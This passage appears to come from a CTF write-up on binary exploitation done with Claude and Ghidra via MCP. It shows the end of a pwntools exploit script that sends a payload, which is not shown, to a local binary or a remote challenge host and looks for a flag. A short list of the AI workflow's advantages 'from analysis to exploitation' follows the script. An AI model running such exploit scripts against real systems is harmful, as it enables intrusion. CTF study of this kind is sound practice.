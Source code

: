 ```python
        if len(sys.argv) > 1 and sys.argv[1] == "remote":
            HOST = "45.33.118.86"  # Update with actual host
            PORT = 9991                   # Update with actual port
            print(f"[*] Connecting to {HOST}:{PORT}")
            p = remote(HOST, PORT)
        else:
            print("[*] Starting local process")
            p = process(BINARY_PATH)
        
        # Send payload
        print("[*] Waiting for input prompt...")
        p.recvuntil(b"input: ")
        
        print("[*] Sending payload...")
        p.sendline(payload)
        
        # Receive output
        print("[*] Receiving response...")
        try:
            response = p.recvall(timeout=5)
            print(f"[+] Response:\n{response.decode('utf-8', errors='ignore')}")
            
            # Check if we got the flag
            if b"flag" in response.lower() or b"bdsec" in response.lower():
                print("[+] SUCCESS! Flag should be in the output above!")
            else:
                print("[!] No flag found in output - exploit may have failed")
                
        except Exception as e:
            print(f"[!] Error receiving response: {e}")
            
        p.close()
        
    except Exception as e:
        print(f"[!] Exploit failed: {e}")

if __name__ == "__main__":
    main()
```

## Key Advantages of Using Claude + Ghidra MCP

### Automated Analysis

- Claude could directly query Ghidra's database without manual copying
- Instant access to decompiled code, assembly, and binary metadata
- Streamlined workflow from analysis to exploitation

### Intelligent Interpretation
